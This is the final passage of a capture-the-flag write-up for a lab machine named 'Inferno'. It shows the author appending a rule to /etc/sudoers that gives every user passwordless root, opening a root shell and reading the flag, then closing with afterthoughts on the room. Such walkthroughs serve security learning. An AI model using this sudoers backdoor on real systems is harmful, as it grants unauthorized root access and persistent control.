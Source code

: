 So how about maybe using tee to append a new better rule to the sudoers file. For sudo to work we however need to be in a tty enabled shell - so basically bash!

I fired up pspy64 in one shell and waited for it to show that the bash shells got killed. Just after that happend I used another terminal to login via ssh as dante again and then do the following:
```
Last login: Mon Feb 15 10:11:32 2021 from 10.11.25.15
dante@Inferno:~$ echo "ALL ALL=NOPASSWD: ALL"|sudo tee -a /etc/sudoers
ALL ALL=NOPASSWD: ALL
dante@Inferno:~$ sudo /bin/bash -p
root@Inferno:~# sh
#cat /root/proof.txt 
Congrats!

You've rooted Inferno!

f----------REDACTED------------4

mindsflee
# 
```
DONE! got the root flag and thereby finished the room. 

## Afterthoughts
This room was pretty fun. It required a bit of coding and the "infernos" introduced by the fake ports and bash killing was a nice touch. The enumeration wasn't streight forward and for once linpeas did actually not reveal the possible escalation. All in all a very fun room.  
